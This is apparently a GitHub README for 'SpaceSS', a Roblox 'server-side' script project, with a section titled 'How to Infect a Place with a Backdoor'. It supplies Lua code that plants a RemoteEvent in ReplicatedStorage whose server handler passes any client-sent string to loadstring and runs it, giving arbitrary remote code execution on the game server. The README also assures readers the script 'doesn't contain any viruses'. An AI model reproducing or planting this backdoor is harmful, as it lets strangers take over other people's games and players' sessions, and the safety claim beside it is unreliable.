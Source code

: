 # SpaceSS

![SpaceSS Logo](https://github.com/paniniscop/backdoorScanner/blob/main/SpaceSS.jpg)

## Introduction

Welcome to SpaceSS! This project is an open-source endeavor where we've utilized Backdoor.exe from k4scripts. The script is transparent, allowing anyone to inspect it for security concerns. To ensure the safety of our users, our script doesn't contain any viruses. If you encounter any versions of the script claiming to be ours, please verify that it begins with `-- Made by Byzakidd` and ends with `-- forked on GitHub with backdoor.exe`.

## Usage

### How to Infect a Place with a Backdoor

To infect a place with a backdoor, follow these steps:

1. Insert the following code into a RemoteEvent in `game.ReplicatedStorage`:

```lua
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "Backdoor"
backdoor.OnServerEvent:Connect(function(player, SS)
    loadstring(SS)()
end)
```

